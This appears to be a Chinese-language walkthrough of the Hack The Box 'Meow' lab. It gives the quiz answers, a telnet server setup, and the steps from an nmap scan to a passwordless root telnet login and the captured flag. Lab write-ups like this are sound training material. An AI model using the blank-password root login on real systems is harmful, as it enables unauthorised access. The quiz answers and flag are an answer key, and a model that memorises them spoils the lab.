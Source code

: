 <center>Starting Point</center>







[toc]









## Starting Point

> hack the box 启程。
>
> [hack](https://www.hackthebox.com)











### 1. openvpn

> vpn客户端：[openvpn](https://openvpn.net/client)

```shell
# 下载到kali中
sudo openvpn st.ovpn
```







### 1. Meow

> `start ` 开始机器： 就可以 开始攻击了。

```shell
# 1. 获取对方IP
10.129.172.42
```

1. What does the acronym VM stand for?

```shell
Virtual Machine
```

2. What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

```shell
terminal
```

3. What service do we use to form our VPN connection into HTB labs?

```shell
openvpn
```

4. What tool do we use to test our connection to the target with an ICMP echo request?

```shell
ping
```

5. What is the name of the most common tool for finding open ports on a target?

```shell
nmap
```

6. What service do we identify on port 23/tcp during our scans?

```shell
telnet
```

7. What username is able to log into the target over telnet with a blank password?

```shell
root
```





### 2. 获取flage

> telnet: [blog](https://www.cnblogs.com/WangJianqiu/p/16903331.html)

> telnet服务端和客户端搭建。

```shell
# kali 安装 telnet
sudo apt install telnet

1. 服务端搭建

# 安装 telnetd
sudo apt update
sudo apt install telnetd

# 如果使用 xinetd 管理
sudo apt install xinetd

# 配置文件
sudo nano /etc/xinetd.d/telnet

# 配置内容
service telnet
{
        disable         = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = root
        server          = /usr/sbin/in.telnetd
        log_on_failure  += USERID
}

# 启动服务
# 重启 xinetd 服务
sudo systemctl restart xinetd

# 或直接启动 telnet 服务
sudo systemctl start telnet.socket

# 查看状态
sudo systemctl status telnet.socket


2. 客户端连接
# Ubuntu/Debian
sudo apt install telnet

# CentOS/RHEL
sudo yum install telnet

# windows
# 使用管理员权限运行 PowerShell
dism /online /Enable-Feature /FeatureName:TelnetClient

# 基本连接
telnet hostname_or_ip 23

# 指定用户连接
telnet -l username hostname_or_ip
```



```shell
ping 10.129.172.42

# nmap
nmap -p- 10.129.172.42 -A

PORT   STATE SERVICE
23/tcp open  telnet

# 开放 telnet 23 端口
telnet 10.129.172.42 23

# root 用户不需要密码
root

# 获取flag
ls
cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```





